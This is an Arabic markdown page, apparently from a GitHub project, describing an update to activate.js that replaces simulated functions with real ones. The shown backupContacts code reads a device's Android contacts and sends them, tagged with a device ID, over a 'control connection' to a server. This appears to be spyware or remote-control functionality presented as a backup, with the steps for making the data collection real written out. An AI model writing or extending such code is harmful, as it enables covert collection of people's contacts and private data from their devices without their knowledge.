 ## 🔄 تحديث ملف activate.js:

### 1. **استبدال الوظائف المحاكية**
```javascript
// قبل التحديث
async function backupContacts() {
    const contacts = await queryContentProvider('content://com.android.contacts/data');
    // محاكاة
}

// بعد التحديث
async function backupContacts() {
    if (!window.realDataAccess) {
        window.realDataAccess = new RealDataAccess();
    }
    
    const result = await window.realDataAccess.backupContacts();
    
    // إرسال النتيجة للخادم
    if (window.controlConnection) {
        window.controlConnection.send(JSON.stringify({
            type: 'contacts_backup_complete',
            data: result,
            deviceId: deviceId,
            timestamp: Date.now()
        }));
    }
    
    return result;
}
```

### 2. **إضافة معالجة الأخطاء المحسنة**
```javascript
try {
    const result = await window.realDataAccess.backupContacts();
    // معالجة النجاح
} catch (error) {
    console.error('فشل في نسخ جهات الاتصال:', error);
    throw new Error(`فشل في نسخ جهات الاتصال: ${error.message}`);
}
```

### 3. **إضافة إرسال النتائج للخادم**
```javascript
if (window.controlConnection) {
    window.controlConnection.send(JSON.stringify({
        type: 'contacts_backup_complete',
        data: result,
        deviceId: deviceId,
        timestamp: Date.now()
    }));
}
```
